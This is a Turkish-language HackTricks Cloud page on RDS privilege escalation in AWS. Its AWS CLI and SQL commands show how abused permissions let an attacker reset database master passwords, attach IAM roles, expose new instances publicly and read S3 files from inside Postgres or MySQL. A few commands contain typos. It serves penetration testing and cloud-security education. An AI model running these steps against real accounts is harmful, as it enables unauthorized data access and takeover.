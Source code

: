 # AWS - RDS Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## RDS - İlişkisel Veritabanı Servisi

RDS hakkında daha fazla bilgi için:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlari/aws-iliskisel-veritabani-rds-enum.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlari/aws-iliskisel-veritabani-rds-enum.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlari/aws-iliskisel-veritabani-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan, **ana kullanıcının şifresini değiştirebilir** ve veritabanına giriş yapabilir:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Veritabanına **bağlantı kurabilmeniz gerekecek** (genellikle yalnızca iç ağlardan erişilebilirler).
{% endhint %}

**Potansiyel Etki:** Veritabanları içinde hassas bilgiler bulunabilir.

### rds-db:connect

[**Belgelere**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) göre, bu izne sahip bir kullanıcı DB örneğine bağlanabilir.

### RDS Rolü IAM izinlerini Kötüye Kullanma

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** komutunu çalıştırarak **`rdsadmin`** adında bir veritabanı bulursanız, içinde bir **AWS postgresql veritabanı** olduğunu bilirsiniz.
{% endhint %}

İlk olarak, bu veritabanının başka bir AWS hizmetine erişmek için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunun için yüklü uzantılara bakabilirsiniz:

```sql
SELECT * FROM pg_extension;
```

Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişimi olduğunu** varsayabilirsiniz (**`aws_ml`** ve **`aws_lambda`** gibi diğer uzantılar da vardır).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, **kümenin bağlı bir IAM Rolü olup olmadığını** **`AssociatedRoles`** alanında görebilirsiniz. Eğer varsa, veritabanının **diğer AWS hizmetlerine erişim için hazırlandığını** varsayabilirsiniz. Rolün **adı** (veya rolün **izinleri** elde edilebilirse) temel alarak, veritabanının ne tür ek erişime sahip olabileceğini **tahmin edebilirsiniz**.

Şimdi, bir kovada bir dosyayı **okumak için tam yolunu bilmelisiniz**. Aşağıdaki komutla okuyabilirsiniz:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Eğer **ham AWS kimlik bilgilerine** sahipseniz, bunları kullanarak aşağıdaki komutu kullanarak S3 verilerine erişebilirsiniz:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql, S3' e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Bir mysql içinde, **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırırsanız ve **`rdsadmin`** adında bir kullanıcı varsa, bir **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.
{% endhint %}

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanının S3 verilerine erişmek için hazırlandığını varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili rolü** olup olmadığını kontrol edebilirsiniz, bu genellikle AWS hizmetlerine erişim anlamına gelir).

Şimdi, bir kovada **bir dosya okumak** için tam yolunu bilmeniz gerekmektedir. Aşağıdaki komutla okuyabilirsiniz:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirtilen bir rol ekleyebilir**. Bu, saldırganın **hassas verilere erişmesine** veya örnekteki verileri değiştirmesine olanak tanıyabilir.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya yetkisiz veri değişiklikleri.\
Unutmayın ki bazı veritabanları ek yapılandırmalar gerektirir, örneğin Mysql, parametre gruplarında rol ARN'sini belirtmek gerekmektedir.

### `rds:CreateDBInstance`

Sadece bu izinle bir saldırgan, zaten var olan ve bir IAM rolüne sahip olan bir küme içinde **yeni bir örnek oluşturabilir**. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı örneğini internete açabilir:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rolle ilişkilendirilmiş yeni bir RDS örneği oluşturabilir**. Saldırgan daha sonra potansiyel olarak örnekteki hassas verilere **erişebilir veya verileri değiştirebilir**.

{% hint style="warning" %}
Rol/önek ilişkilendirme için bazı gereksinimler ([**buradan**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil hesabınızda mevcut olmalıdır.
* Profilin, Amazon EC2'nin varsayılan olarak yetkilendirilmiş olduğu bir IAM rolü olmalıdır.
* Örnek profil adı ve ilişkili IAM rol adı `AWSRDSCustom` önekiyle başlamalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya yetkisiz veri değişiklikleri.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rolü mevcut bir RDS örneğine ekleyebilir**. Bu, saldırganın örnekteki **hassas verilere erişmesine** veya verileri değiştirmesine olanak tanıyabilir.

{% hint style="warning" %}
Bu işlem, DB örneğinin bir küme dışında olması gerekmektedir.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya yetkisiz veri değişiklikleri.

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
